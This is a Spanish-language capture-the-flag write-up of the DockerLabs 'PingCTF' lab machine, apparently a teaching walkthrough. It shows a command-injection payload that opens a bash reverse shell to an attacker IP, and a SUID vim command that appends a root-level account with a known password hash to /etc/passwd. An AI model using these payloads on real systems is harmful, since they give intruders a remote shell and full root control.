







# 🧠 Informe de Pentesting – Máquina: PingCTF

### 💡 Dificultad: Fácil

📦 **Plataforma:** DockerLabs


---

# 🚀 Despliegue de la Máquina

Para iniciar la máquina vulnerable, primero descomprimimos el archivo proporcionado y posteriormente ejecutamos el script de despliegue:

```bash
unzip ping_cft.zip
sudo bash auto_deploy.sh ping_cft.tar
```

Una vez finalizado el proceso, el contenedor vulnerable quedará desplegado dentro de nuestro entorno de laboratorio y listo para comenzar las tareas de reconocimiento y explotación.



---

# 📶 Comprobación de Conectividad

Después del despliegue, verificamos que la máquina objetivo se encuentre activa y responda correctamente a peticiones ICMP:

```bash
ping -c1 172.17.0.2
```

La respuesta recibida confirma que el host está encendido y accesible dentro de la red local del laboratorio.



---

# 🔍 Escaneo de Puertos

El siguiente paso consiste en realizar un escaneo completo sobre todos los puertos TCP con el objetivo de identificar los servicios expuestos por la máquina víctima.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

### Explicación de los parámetros utilizados

| Parámetro         | Descripción                                    |
| ----------------- | ---------------------------------------------- |
| `-p-`             | Escanea los 65535 puertos TCP.                 |
| `--open`          | Muestra únicamente los puertos abiertos.       |
| `-sS`             | Realiza un SYN Scan (escaneo semiabierto).     |
| `--min-rate 5000` | Envía al menos 5000 paquetes por segundo.      |
| `-vvv`            | Incrementa el nivel de verbosidad.             |
| `-n`              | Evita la resolución DNS.                       |
| `-Pn`             | Omite la fase de descubrimiento mediante ping. |

### 📌 Puertos Abiertos Detectados

Durante el análisis se identificaron los siguientes puertos abiertos:

* **80/tcp** → Servicio HTTP

---

## 🧩 Enumeración de Servicios y Versiones

Una vez identificados los puertos abiertos, realizamos una enumeración más detallada para conocer versiones, configuraciones y posibles vectores de ataque.

```bash
nmap -sCV -p22,80,3306 172.17.0.2
```

### Explicación de los parámetros

| Parámetro | Descripción                                |
| --------- | ------------------------------------------ |
| `-sC`     | Ejecuta scripts NSE por defecto.           |
| `-sV`     | Detecta versiones de servicios.            |
| `-p`      | Define los puertos específicos a analizar. |

Este análisis permite recopilar información relevante sobre los servicios activos y posibles configuraciones inseguras.



---

# Revisión de la Página HTTP

Al identificar la existencia del servicio HTTP, accedemos mediante el navegador web:

```bash
http://172.17.0.2
```

presenta una utilidad denominada Connectivity Check Utility, que permite introducir una dirección IP o nombre de host para realizar comprobaciones de conectividad.

Este tipo de funcionalidades suele ser un objetivo habitual para ataques de inyección de comandos, ya que frecuentemente ejecutan comandos del sistema operativo en segundo plano.

Se confirmó que era posible utilizar el carácter:

```bash
;
```

El punto y coma permite ejecutar un segundo comando independientemente del resultado del primero. En este escenario, primero se ejecutaría el comando legítimo de comprobación de conectividad y, posteriormente, el comando inyectado.

Despliegue



---

# Obtención de Reverse Shell

En la máquina atacante se configuró un listener para recibir conexiones entrantes desde el sistema comprometido:

```bash
sudo nc -lvnp 4444
```

Posteriormente, se introdujo el siguiente payload dentro del formulario vulnerable con el objetivo de explotar la vulnerabilidad de inyección de comandos presente en la aplicación web:

```bash
127.0.0.1 ; bash -c "bash -i >& /dev/tcp/192.168.0.104/4444 0>&1"
```

El payload aprovecha la concatenación de comandos mediante el carácter `;`, permitiendo ejecutar una shell interactiva que redirige la entrada y salida estándar hacia la dirección IP de la máquina atacante a través del puerto 4444.

Tras la ejecución exitosa del payload, el sistema objetivo estableció una conexión inversa hacia el listener previamente configurado, obteniéndose así una **Reverse Shell** con los privilegios del usuario que ejecutaba el servicio web.



# Nota: Antes de hacer la escalada se debe de hacer el tratamiento de TTY para evitar conflictos en la terminal

Las shells obtenidas mediante técnicas de Reverse Shell suelen ser limitadas y carecen de funcionalidades propias de una terminal interactiva. Por ello, antes de comenzar cualquier proceso de escalada de privilegios es recomendable realizar el tratamiento de la TTY para disponer de una consola más estable y funcional.

```bash
script /dev/null -c bash
```

Una vez ejecutado el comando anterior, se suspende temporalmente la sesión:

```bash
Ctrl + Z
```

Posteriormente, desde la máquina atacante:

```bash
stty raw -echo; fg
```

A continuación se restablece correctamente el entorno de terminal:

```bash
reset xterm
```

Se configuran las variables necesarias para mejorar la experiencia interactiva:

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

Tras estos pasos se obtiene una terminal completamente interactiva, permitiendo utilizar herramientas como `su`, `vim`, `nano`, historial de comandos, autocompletado y combinaciones de teclas sin restricciones.

---

# Se busca archivos con Permisos SUID

Una vez obtenida una shell estable, se procede a enumerar binarios que posean el bit SUID activo:

```bash
find / -perm -4000 -type f 2>/dev/null
```

El bit **SUID (Set User ID)** permite que un programa se ejecute con los privilegios de su propietario en lugar de los del usuario que lo invoca. Cuando un binario propiedad de **root** posee este permiso, puede convertirse en un vector potencial para la escalada de privilegios si permite realizar acciones privilegiadas.

Durante la enumeración se identificó el binario:

```bash
/usr/bin/vim.basic
```

El editor de texto **vim.basic** tenía configurado el bit SUID y era propiedad del usuario root. Debido a que Vim permite leer, escribir y modificar archivos arbitrarios, así como ejecutar comandos del sistema, este binario es conocido por aparecer en técnicas documentadas dentro de **GTFOBins** para la elevación de privilegios.



---

# Escalada root

## Generación del Hash de Contraseña

Para crear un nuevo usuario con privilegios administrativos fue necesario generar previamente un hash válido para la contraseña deseada:

```bash
openssl passwd -1 -salt hack password
```

### Explicación del comando

**openssl passwd**

Utiliza las funciones criptográficas proporcionadas por OpenSSL para generar hashes de contraseñas compatibles con sistemas Linux tradicionales.

**-1**

Especifica el uso del algoritmo MD5-Crypt, identificado por el prefijo `$1$`.

**-salt hack**

Define la sal utilizada durante el proceso de generación del hash. La sal añade entropía y garantiza que la misma contraseña produzca un resultado específico y reproducible.

**password**

Representa la contraseña en texto plano elegida para el nuevo usuario.

### Resultado obtenido

```bash
$1$hack$Qfvz92fBAtSC9ccCE6BES0
```

Linux no almacena contraseñas en texto plano, sino únicamente sus representaciones cifradas. Por este motivo era necesario generar previamente el hash para poder incorporarlo directamente a la base de datos de usuarios del sistema.

---

## Inyección en la Base de Datos de Usuarios

Una vez generado el hash, se aprovechó el binario SUID de Vim para añadir una nueva cuenta con UID 0 al archivo `/etc/passwd`.

```bash
echo "root2:\$1\$hack\$Qfvz92fBAtSC9ccCE6BES0:0:0:root:/root:/bin/bash" | /usr/bin/vim.basic -e -s -c ':g/./d' -c ':r /dev/stdin' -c ':w! >> /etc/passwd' -c ':q!' /etc/passwd
```

### Análisis detallado del comando

#### Creación de la entrada del usuario

```bash
echo "root2:..."
```

Genera la línea que será añadida al archivo `/etc/passwd`.

La estructura corresponde a:

```text
usuario:hash:UID:GID:comentario:directorio_home:shell
```

En este caso:

```text
root2:$1$hack$Qfvz92fBAtSC9ccCE6BES0:0:0:root:/root:/bin/bash
```

Donde:

* **root2** → Nombre del usuario.
* **UID 0** → Privilegios equivalentes a root.
* **GID 0** → Grupo root.
* **/root** → Directorio personal.
* **/bin/bash** → Shell asignada.

Las barras invertidas (`\`) evitan que Bash interprete los caracteres `$` como variables.

---

#### Ejecución de Vim en modo silencioso

```bash
/usr/bin/vim.basic -e -s
```

**-e**

Inicia Vim en modo Ex.

**-s**

Ejecuta Vim en modo silencioso.

Esta combinación permite automatizar acciones sin necesidad de abrir una interfaz interactiva.

---

#### Limpieza del búfer

```bash
-c ':g/./d'
```

Elimina temporalmente todas las líneas cargadas en memoria dentro del búfer de Vim.

---

#### Lectura de la entrada estándar

```bash
-c ':r /dev/stdin'
```

Indica a Vim que lea el contenido recibido desde la tubería (`pipe`) y lo cargue en su búfer interno.

---

#### Escritura sobre `/etc/passwd`

```bash
-c ':w! >> /etc/passwd'
```

Realiza una escritura forzada utilizando el operador de concatenación `>>`, agregando la nueva entrada al final del archivo sin sobrescribir el contenido existente.

Debido a que `vim.basic` se ejecuta con privilegios de root gracias al bit SUID, la operación puede realizarse aunque el usuario actual no tenga permisos directos de escritura sobre dicho archivo.

---

#### Salida de Vim

```bash
-c ':q!'
```

Finaliza la ejecución de Vim sin realizar modificaciones adicionales sobre el búfer.

---

## Verificación de la Inyección

Para confirmar que la nueva entrada fue añadida correctamente:

```bash
cat /etc/passwd | tail -n 3
```

### Explicación

```bash
cat /etc/passwd
```

Muestra el contenido completo del archivo de usuarios.

```bash
tail -n 3
```

Limita la salida a las tres últimas líneas.

### Resultado esperado

La última línea debe corresponder al usuario recién agregado:

```text
root2:$1$hack$Qfvz92fBAtSC9ccCE6BES0:0:0:root:/root:/bin/bash
```

Esto confirma que la modificación del archivo se realizó exitosamente.

---

## La Coronación (Escalada de Privilegios)

Con la cuenta creada correctamente, se procede a cambiar de usuario:

```bash
su root2
```

El sistema solicita la contraseña configurada anteriormente:

```text
password
```

Una vez autenticado, la sesión pasa a ejecutarse bajo el contexto del usuario `root2`.

Aunque el nombre del usuario sea diferente al de root, el aspecto crítico es que posee:

```text
UID = 0
```

En sistemas Linux, cualquier cuenta con UID 0 es considerada administradora absoluta del sistema.

---

## Verificación de Privilegios

Para confirmar la escalada:

```bash
whoami
```

Salida:

```text
root
```

Y posteriormente:

```bash
id
```

Resultado:

```text
uid=0(root) gid=0(root) groups=0(root)
```

La presencia de `uid=0` confirma que se han obtenido privilegios completos de administrador sobre el sistema, completando exitosamente el proceso de escalada de privilegios.



---

Como observación adicional, esta técnica funciona debido a una **configuración insegura del bit SUID sobre `vim.basic`**, permitiendo que un usuario sin privilegios modifique archivos críticos del sistema. En un entorno productivo, la presencia de editores de texto, intérpretes o binarios interactivos con permisos SUID debe considerarse una vulnerabilidad crítica y corregirse inmediatamente.
